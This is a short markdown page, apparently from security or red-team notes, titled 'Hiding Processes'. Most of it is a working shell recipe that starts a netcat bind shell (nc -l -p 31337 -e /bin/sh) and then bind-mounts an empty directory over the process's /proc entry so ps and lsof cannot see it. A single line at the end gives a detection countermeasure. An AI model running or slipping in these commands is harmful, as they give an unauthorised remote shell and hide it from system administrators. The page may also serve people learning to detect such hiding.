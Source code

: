 # Hiding Processes

### Listening sockets, hiding from ps and lsof <a href="hideprocesses" id="hideprocesses"></a>

```
mkdir /tmp/empty
/bin/nc.traditional -l -p 31337 -e /bin/sh &
ps aux | grep $!
sudo mount --bind /tmp/empty /proc/$!
ps aux | grep $!
```

#### Countermeasure:&#x20;

`netstat -tulpe` and checking `cat /proc/$$/mountinfo` for suspicious mounts over `/proc`
